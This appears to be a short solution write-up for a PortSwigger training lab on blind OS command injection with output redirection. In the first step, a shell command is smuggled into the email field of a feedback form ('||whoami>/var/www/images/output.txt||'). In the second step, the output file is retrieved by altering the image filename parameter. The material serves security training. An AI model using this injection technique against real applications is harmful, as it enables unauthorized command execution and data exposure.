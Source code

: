 # Blind OS command injection with output redirection

## This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

## `/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then _use the image loading URL to retrieve the contents of the file_.

To solve the lab, execute the `whoami` command and retrieve the output.

---

### step 1

whoami > /var/www/images/output.txt

csrf=J60D36lA81EHJ9W3GtrkPVGywDrTS2Se&name=mantoo&email=jemof16874%40jobsfeel.com||whoami>/var/www/images/output.txt||
&subject=how+to&message=hi+i+am+new+in+this

### step2

_use the image loading URL to retrieve the contents of the file_.
open images and intercept
GET /image?filename=22.jpg HTTP/1.1
and change the image name
GET /image?filename=output.txt HTTP/1.1
